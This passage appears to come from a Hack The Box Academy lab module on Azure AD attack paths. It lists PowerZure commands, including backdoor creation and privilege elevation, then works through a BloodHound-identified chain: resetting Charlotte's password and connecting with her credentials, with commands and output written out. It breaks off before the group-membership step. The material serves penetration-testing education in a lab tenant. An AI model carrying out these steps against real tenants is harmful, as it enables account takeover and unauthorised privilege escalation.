 ```powershell
Invoke-AzureVMUserDataCommand ------ Executes a command using the userData channel on a specified Azure VM.
New-AzureADUser -------------------- Creates a user in Azure Active Directory
New-AzureBackdoor ------------------ Creates a backdoor in Azure via Service Principal
New-AzureIntuneScript -------------- Uploads a PS script to Intune
Set-AzureElevatedPrivileges -------- Elevates the user’s privileges from Global Administrator in AzureAD to include User Access Administrator in Azure RBAC.
Set-AzureSubscription -------------- Sets default subscription. Necessary if in a tenant with multiple subscriptions.
Set-AzureADUserPassword ------------ Sets a user’s password
Start-AzureRunbook ----------------- Starts a Runbook
```

In our initial enumeration, we identified a group named `Subscription Reader` owned by `Charlotte`, an account that Isabella has the right to change the password. Although we have no precise way of guaranteeing that this group has read privileges on the subscription, there is a possibility that the administrator has given read rights to this group on the subscription because of the name it has.

![BloodHound graph showing relationships: ISABELLA.MILLER@... can AZResetPassword for CHARLOTTE.MOORE@..., who AZOwns SUBSCRIPTION READER@DEFAULT DIRECTORY.](https://academy.hackthebox.com/storage/modules/69/azurehound_passwordrest.jpg)

To compromise this group, we must abuse two edges: `AZResetPassword` and `AZOwns`. Let's start by modifying Charlotte's password and then using her account to add herself to the `Subscription Reader` group.

#### Password Reset Charlotte

```powershell
PS C:\Tools\PowerZure> Set-AzureADUserPassword -Username Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com -Password HacktheboxPwnCloud01
```

Now we need to connect to Azure using Charlotte's credentials:

#### Connect as Charlotte

```powershell
PS C:\Tools\PowerZure> $username = "Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com"
PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxPwnCloud01" -AsPlainText -Force
PS C:\Tools\PowerZure> $CharlotteCreds = New-Object System.Management.Automation.PSCredential $username, $password
PS C:\Tools\PowerZure> Connect-AzAccount -Credential $CharlotteCreds

Account                                                  SubscriptionName TenantId                             Environment
-------                                                  ---------------- --------                             -----------
Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com                  92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

With Charlotte's access, we can now add any user as a member of "Subscription Reader" for simplicity, we will add herself:

